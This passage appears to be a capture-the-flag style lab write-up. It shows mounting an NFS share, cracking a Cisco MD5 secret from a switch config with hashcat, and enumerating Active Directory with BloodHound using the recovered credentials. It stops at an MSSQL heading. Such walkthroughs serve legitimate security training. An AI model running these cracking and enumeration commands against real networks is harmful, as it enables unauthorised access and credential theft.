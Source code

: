 # Enumerating NFS share

We get access denied on both of them, looking at nfs, we have `/mnt/nfs_share` that can be mounted from our host

<img src="https://i.imgur.com/aBrtysm.png"/>

Mounting the folder with `mount`

```bash
sudo mount -t nfs 10.10.175.71:/mnt/nfs_shares /home/arz/Vulnlabs/Klendathu/shares
```

<img src="https://i.imgur.com/kJqDKxF.png"/>


There's a configuration file for a cisco switch, at the end there's a contact email which could be a domain user, which is a valid user

<img src="https://i.imgur.com/HlWVwUU.png"/>

<img src="https://i.imgur.com/uGuqgqI.png"/>

We can also see a cisco secret password which is a MD5 hashed password

<img src="https://i.imgur.com/Noacbpt.png"/>

This can be cracked with either hashcat or john

```bash
hashcat -a 0 -m 500 ./hash.txt /usr/share/wordlists/rockyou.txt  --force
```

<img src="https://i.imgur.com/svfnyqx.png"/>

With these credentials we can list down the shares on both windows hosts and can read `HomeDirs` on DC which is interesting

<img src="https://i.imgur.com/YX3uEec.png"/>

But these directories are not accessible with zim

<img src="https://i.imgur.com/mvgwvML.png"/>

Moving forward we can enumerate AD with bloodhound

```bash
python3 /opt/BloodHound.py/bloodhound.py -d 'KLENDATHU.VL' -u 'zim' -p 'password' -ns 10.10.189.69 -dc DC1.KLENDATHU.VL
```

<img src="https://i.imgur.com/B6xDdV1.png"/>

This user belongs to Netadmins group but there's nothing beyond that bloodhound show us 

<img src="https://i.imgur.com/6zXMOyR.png"/>
## Accessing MSSQL
